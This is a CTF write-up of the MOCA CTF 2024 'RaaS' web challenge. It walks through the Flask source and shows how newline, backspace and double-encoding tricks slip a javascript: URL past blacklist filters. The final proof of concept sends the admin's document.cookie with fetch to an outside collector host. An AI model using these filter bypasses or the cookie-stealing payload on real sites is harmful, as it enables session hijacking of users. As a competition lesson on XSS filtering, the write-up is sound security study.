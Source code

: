 # RaaS \[WEB]

## RaaS \[WEB] - MOCA CTF 2024 Quals

***

![](./assets/MocaCTF_logo.png)

## TL;DR

* The challenge involved achieving DOM XSS inside a Flask template through the `javascript:` pseudo protocol. This was accomplished bypassing a filtering regex and blacklisted characters.

## 0. Description

> A simple click-to-xss to warmup.

***

### 1. Challenge scenario

We're given a form in which it is possible to insert a link, a title, and be redirected to that URL. There is also the possibility of sending this link to the admin who will in turn be redirected.

![](./assets/RaaS_firstlook.png)

Source code is provided, so we'll look into that to understand what's happening.

### 1.1) Source code analysis

The project is divided into two parts: the main application and the admin bot. We'll look into the application code first.

**app.py**

```python
from flask import Flask, request, render_template, Response, redirect,jsonify, make_response, g, redirect, send_file
import requests
import urllib.parse
import re

app = Flask(__name__)

@app.route('/', methods=['GET'])
def main_page():
    return render_template('home.html')

def check_url(url):
    url = url.lower()
    pattern = r'[()=$`]'
    if bool(re.search(pattern, url, re.IGNORECASE | re.DOTALL)):
        return False
    if url.startswith("j") or "javascript" in url:
        return False
    return True

def check_title(title):
    if "<" in title or ">" in title:
        return False
    return True

@app.route('/redirectTo', methods=['GET'])
def redirect_to():

    url = request.args.get("url")
    title = request.args.get("title")
    default_url = "https://www.youtube.com/watch?v=xvFZjo5PgG0&ab_channel=Duran"

    if not isinstance(title,str) or not isinstance(url,str):
        return render_template('redirect.html',url=default_url, title="title")
    url = url.strip()

    if not check_url(url) or not check_title(title):
        return render_template("redirect.html", title=title, url=default_url)
    return render_template('redirect.html',url=url, title=title)

@app.route('/redirectAdmin', methods=['GET'])
def redirect_admin():
    default_url = "https://www.youtube.com/watch?v=xvFZjo5PgG0&ab_channel=Duran"
    admin_bot = "http://raas-admin:3000/report_to_admin"
    url = request.args.get("url")
    title = request.args.get("title")
    
    if not isinstance(title,str) or not isinstance(url,str):
        requests.post(admin_bot, json={"url":default_url, "title":"title"})
        return jsonify({"message":"done"}), 201

    url = url.strip()
    if not check_url(url) or not check_title(title):
        requests.post(admin_bot, json={"url":default_url, "title":"title"})
        return jsonify({"message":"done"}), 201

    requests.post(admin_bot, json={"url":url, "title":title})
    return jsonify({"message":"done"}), 201


if __name__ == '__main__':
    app.run(host="0.0.0.0", port=5000)
```

Clicking on the "_Get Redirected!_" button will trigger the `/redirectTo` route, which is anyway triggered also by the "_Redirect the Admin!_" button that executes the `/redirectAdmin` route. The first endpoint accepts the `url` and `title` parameters which must be strings and later passed to the `check_url()` and `check_title()` sanitizing functions. If we can bypass that with a working payload, we'll have XSS. The second endpoint forwards the given URL to the admin bot, which simply goes to the `/redirectTo` endpoint with our inputs, and simulates a button click on the "_Follow Link_" button.

![](./assets/Raas_redirectTo.png)

The `check_url` function aims to sanitize the URL input by converting it to lowercase, hence avoiding all the lowercase-uppercase payloads like `jAvAsCriPt:aLeRt(1)`. It also check for the presence of some special characters with the regex ``r'[()=$`]'`` that will limit us later on exploitation. Particularly, it ensures the URL does not start with "j" character or contain the substring "javascript". This comes out as the main limitation for us, since it should block the payloads with the javascript pseudo protocol.

At this point, a simple way out will be any other working pseudo protocol XSS payload like `data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4`. However, if we try so, the browser will insult us with:

![](./assets/Raas_browserblock.png)

My approach at this point was to split the checks individually in the source code an try to bypass them one by one.

## 2. Exploitation

Below I will explain how I bypassed each of them, doing it with a bottom-up approach cause I found it more convenient.

### 2.1) "javascript" not allowed bypass

We're not allowed to use the string "javascript" anywhere in our URL, so...just don't use it! We will write

```
java
script
```

instead. Here we are using a **newline character** to bypass the check. Since in the Python side `"java\x0Ascript" != "javascript"`, but in the broswer `java%0Ascript` will still be considered a valid url for the `javascript` protocol.

> \[!info] NOTE Our input get stripped before getting into che sanitizing function, however Python [strip()](https://docs.python.org/3.11/library/stdtypes.html#str.strip) function only removes **leading and trailing characters**.

Even though this is a common bypass, I never actually knew why this was working. Researching for bypasses for the javascript pseudo protocol I've found [this blog](https://aszx87410.github.io/beyond-xss/en/ch1/javascript-protocol/) which was helpful to me to find out the reason why whitespaces are allowed in this situation and find out the bypass for the next filter. The reason seems to rely in the [URL spec standard](https://url.spec.whatwg.org/) which removes any ASCII tab or newline from inputs.

### 2.2) doesn't starts with "j" bypass

This one was tougher. the strip function that was allowing me to bypass the previous check was sending me crazy on this one. Majority of payloads broke the `javascript` protocol: even if they bypassed the checks, they would just get included as part of the web application URL (e.g `url=/java%0Ascript:payload`). Another example is what I initially thought to be a NULL byte bypass, which caused instead a strange behaviour: 

![](./assets/Raas_NULLbyteinurl.png)

As you can see, it bypassed the python checks but in the button preview (left corner) it was mutated in some non printable character, invalidating it as protocol. However, i felt in being in the right path, until the previous blog confirmed my sensations.

![](./assets/RaaS_controlcharsinURL.png)

Control Characters are allowed?? It did, in fact. Using the **BACKSPACE** (`%08`) character allowed me to bypass the python filter and still getting a valid url for the javascript protocol! And any of the [ASCII Control Characters](https://en.wikipedia.org/wiki/Control\_character) below would have probably get the job done.

![](./assets/Raas_ASCIIcontrolchars.png)

### 2.3) regex bypass

This was probably the easiest check to bypass, since javascript is very permissive in expressions that can be created even with a few symbols, it is no coincidence that there are many esoteric languages ​​on javascript such as [JSFuck](https://jsfuck.com/) that manage to create valid expressions using only a few symbols.
./../.gitbook
> \[!info] Fun Fact [here](http://aem1k.com/aurebesh.js/) I've found some of the funniest javascript esoteric shit expression while doing this challenge, like...how the fuck i can popup alert with fucking Egyptian hieroglyphs, but a simple NULL byte will break the shit out of the payload??

However, searching brainlessly "XSS payloads without parentheses" was enough since i found many working payloads inside [this repo](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md). I was also able to double encode inside the payload after the `javascript:` since javascript was decoding it.

### 2.4) PoC

```javascript
%08java%0Ascript%3Afetch%2528'http://eeeee.free.beeceptor.com/'%2Bdocument.cookie%2529
// javascript:fetch('http://eeeee.free.beeceptor.com/'+document.cookie)
```

![](./assets/RaaS_finalpayload.png)

> `PWNX{WH0_D035'N7_l0V3_4_g00D_0l'_W4F?}`

***

#### TAGS: #XSS #flask

